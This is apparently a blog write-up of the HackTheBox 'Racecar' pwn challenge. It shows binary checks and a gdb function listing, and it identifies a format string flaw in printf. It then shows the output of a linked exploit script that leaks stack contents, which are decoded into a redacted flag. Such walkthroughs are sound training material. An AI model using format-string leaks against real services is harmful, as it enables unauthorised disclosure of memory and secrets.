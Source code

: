 ```yaml
---
title: "Racecar"
date: 2022-09-20T15:03:31+01:00
draft: false
categories:
  - HackTheBox
---
```


Simple [pwn challenge](https://github.com/nair0lf32/CTF-Scripts/blob/master/Hackthebox/racecar/racecar) they said

```
└──╼ $file racecar
racecar: ELF 32-bit LSB pie executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=c5631a370f7704c44312f6692e1da56c25c1863c, not stripped
```

```
└──╼ $checksec racecar
[*] Checking for new versions of pwntools
    To disable this functionality, set the contents of /home/nair0lf32/.cache/.pwntools-cache-3.9/update to 'never' (old way).
    Or add the following lines to ~/.pwn.conf or ~/.config/pwn.conf (or /etc/pwn.conf system-wide):
        [update]
        interval=never
[*] You have the latest version of Pwntools (4.7.0)
[*] '/Racecar/racecar'
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```
It is an easy one they said!

```
(gdb) info function
All defined functions:

Non-debugging symbols:
0x00000618  _init
0x00000650  strcmp@plt
...

0x00000929  banner
0x00000b93  setup
0x00000c02  race_type
0x00000c91  car_menu
0x00001082  info
0x000011d2  car_info
0x00001352  menu
0x000013e1  main

...

(gdb) disassemble main
Dump of assembler code for function main:
...

```
There is a format string vulnerability in `printf()` in the `race_menu` function

the flag is right in the stack so [use this](https://github.com/nair0lf32/CTF-Scripts/blob/master/Hackthebox/racecar/exploit.py)

```
└──╼ $python exploit.py
[+] Opening connection to 138.68.129.154 on port 31614: Done
/Racecar/exploit.py:8: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  p.sendline("Name")
[DEBUG] Sent 0x5 bytes:
    b'Name\n'
[DEBUG] Received 0x438 bytes:

...

b'\n[*] Waiting for the race to finish...\x1b[1;32m\n\n[+] You won the race!! You get 100 coins!\n[+] Current coins: [169]\x1b[1;36m\n\n[!] Do you have anything to say to the press after your big victory?\n> \x1b[0m'
[*] Switching to interactive mode
[DEBUG] Received 0x116 bytes:

...

The Man, the Myth, the Legend! The grand winner of the race wants the whole world to know this: 
57d6f1c0170565b8d858152612565b996c57d6f1c057d6f340---FLAG: 0x7b4254480x5f7968770x5f6431640x34735f310x745f33760x665f33680x5f67346c0x745f6e300x355f33680x6b6334740x7d213f ---
[*] Got EOF while reading in interactive
$  
```
Now [decode](https://github.com/nair0lf32/CTF-Scripts/blob/master/Hackthebox/racecar/decode.py)

```
└──╼ $python decode.py
b'HTB{'
b'HTB{why_'
b'HTB{why_d1d_'
b'HTB{why_d1d_1_s4'
...

b'HTB{SIKE_REDACTED}\x00'
```
How easy that was!
